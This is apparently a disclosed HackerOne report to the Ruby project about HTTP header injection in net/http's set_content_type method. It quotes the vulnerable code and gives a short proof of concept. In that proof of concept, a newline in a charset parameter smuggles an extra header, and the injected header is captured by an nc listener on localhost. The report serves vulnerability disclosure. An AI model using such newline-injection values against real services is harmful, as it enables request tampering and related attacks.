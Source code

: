 # 'net/http': HTTP Header Injection in the set_content_type method

## Report Details
- **Report ID**: 1168205
- **URL**: https://hackerone.com/reports/1168205
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-04-19T09:25:40.010Z
- **Disclosed**: 2022-02-04T06:31:47.596Z

## Reporter
- **Username**: sighook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
The set\_content\_type's parameter is not filtered to prevent the injection from altering the entire request.

The vulnerable code:
```ruby
  def set_content_type(type, params = {})
    @header['content-type'] = [type + params.map{|k,v|"; #{k}=#{v}"}.join('')]
  end
```

# PoC

1.
```ruby
require 'net/http'

uri = URI('http://127.0.0.1:8080')
req = Net::HTTP::Post.new(uri)
req.set_content_type('text/html', "charset" => "iso-8859-1\nHeader:Inject")

resp = Net::HTTP.start(uri.hostname, uri.port) do |http|
  http.request(req)
end
```

2.
```
$ nc -lvp 8080
Listening on 0.0.0.0 8080
Connection received on localhost 57620
POST / HTTP/1.1
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Accept: */*
User-Agent: Ruby
Host: 127.0.0.1:8080
Content-Type: text/html; charset=iso-8859-1
Header:Inject # <<<<<<<<
Content-Length: 0
```

I set the same severity as [CVE-2020-26116](https://nvd.nist.gov/vuln/detail/CVE-2020-26116) has.

## Impact

In web applications a CRLF injection can have severe impacts, depending on what the application does with single items. Impacts can range from information disclosure to code execution, a direct impact web application security vulnerability.

## Attachments
No attachments
